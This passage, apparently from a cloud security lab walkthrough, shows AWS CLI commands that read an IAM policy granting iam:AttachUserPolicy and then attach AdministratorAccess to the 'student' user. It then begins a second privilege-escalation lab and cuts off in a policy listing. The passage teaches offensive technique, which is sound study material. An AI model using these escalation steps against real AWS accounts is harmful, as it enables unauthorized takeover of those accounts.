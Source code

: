 The policy `Service` can be retrieved as follows &rarr;

```bash
awsn iam get-policy-version --version-id v1 --policy-arn arn:aws:iam::198307194302:policy/Service
```

This gives the following policy &rarr;

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:AttachUserPolicy",
                    "Effect": "Allow",
                    "Resource": "arn:aws:iam::*:user/*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2022-04-25T01:50:49+00:00"
    }
}
```

This allows the user to attach arbitrary policies to any user. Thus, the administrator privileges can be granted to any user. In this instance, granting the Administrator policy to the `student` user can be done as follows &rarr;

```bash
asd=$(awsn iam list-policies | jq '.Policies[] | select(.PolicyName == "AdministratorAccess") | .Arn' | tr -d "\"")
awsn iam attach-user-policy --user-name student --policy-arn $asd
```

This solves the lab.

---

## Dangerous Policy Combination 1

This lab gives an IAM user with the objective to leverage the policies attached to the `student` user and attain administrative privileges on the AWS account.

Using the User detail list to check the policies for the `student` user &rarr;

```json
{
  "Path": "/",
  "UserName": "student",
  "UserId": "AIDAZNIQILDEKIBVNHP56",
  "Arn": "arn:aws:iam::646963550408:user/student",
  "CreateDate": "2022-04-25T02:37:36+00:00",
  "UserPolicyList": [
    {
      "PolicyName": "terraform-20220425023745069800000002",
      "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
          {
            "Action": [
              "sts:AssumeRole"
            ],
            "Effect": "Allow",
            "Resource": [
              "arn:aws:iam::646963550408:role/Adder",
```